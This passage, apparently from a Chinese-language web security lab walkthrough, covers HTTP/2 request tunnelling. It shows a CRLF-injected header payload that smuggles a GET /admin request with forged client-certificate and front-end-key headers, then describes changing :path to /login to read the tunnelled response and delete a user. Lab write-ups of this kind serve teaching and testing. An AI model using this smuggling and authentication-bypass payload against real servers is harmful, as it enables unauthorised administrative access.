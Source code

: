 Step 6：随后将请求方法改为HEAD并更改头部信息，在其中插入请求路径这样它就可以走私对admin面板的请求，包括三个客户端身份验证头，确保按如下方式更新它们的值

```c
#Name
foo: bar\r\n
\r\n
GET /admin HTTP/1.1\r\n
X-SSL-VERIFIED: 1\r\n
X-SSL-CLIENT-CN: administrator\r\n
X-FRONTEND-KEY: 2244638774928226\r\n
\r\n
#Value
xyz
```

![img](assets/1706773318-50507248373c650eef15b699bb1dd0ed.png)

发送请求您会看到收到一个错误响应表示说没有收到足够的字节，这是因为请求资源的内容长度比我们试图读取的隧道响应长，随后更改`:path`伪标头，使其指向返回较短资源的端点，在这种情况下我们可以使用/login，随后在响应中找到删除carlos的URL，然后相应地更新隧道请求中的路径并重新发送完成解题

![img](assets/1706773318-c5b504cdf870907d6d26d52a927bbcbd.png)

## 缓存投毒

### 基本介绍
